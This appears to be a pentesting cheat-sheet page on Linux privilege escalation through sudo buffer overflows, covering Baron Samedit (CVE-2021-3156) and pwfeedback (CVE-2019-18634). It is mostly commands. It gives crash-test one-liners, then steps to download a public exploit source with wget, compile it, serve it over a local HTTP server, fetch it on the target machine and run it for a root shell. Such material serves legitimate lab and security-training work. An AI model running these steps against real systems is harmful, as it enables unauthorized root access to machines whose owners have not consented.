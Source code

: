 ```yaml
---
title: Buffer Overflow Privilege Escalation
description: Buffer overflow in Linux might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Linux
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Baron Samedit (Heap Buffer Overflow)

### 1. Check Vulnerability to Overwrite Heap Buffer in Target Machine

```sh
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
malloc(): invalid size (unsorted)
Aborted
```

### 2. Proof of Concept

See **[this repository](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156){:target="_blank"}{:rel="noopener"}**.

<br />

## Pwfeedback

### 1. Check Enabling the Pwfeedback in /etc/sudoers

If so, when running sudo command and inputting password, asterisk will be displayed.  
You can make it the buffer overflow.

```sh
cat /etc/sudoers

# -------------------------------------------

...
Defaults pwfeadback
...
```

### 2. Input Long String to Password

```sh
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
# [sudo] password for tryhackme: Segmentation fault
```

### 3. Download a Payload and Compile in Local Machine

```sh
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
gcc -o exploit exploit.c
```

### 4. Transfer the Payload to Remote Machine

```sh
# In local machine
python3 -m http.server 8000

# In remote machine
wget http://<local-ip>:8000/exploit
```

### 5. Execute the Payload in Remote Machine

After that, you'll get a root shell.

```sh
chmod 700 ./exploit
./exploit
```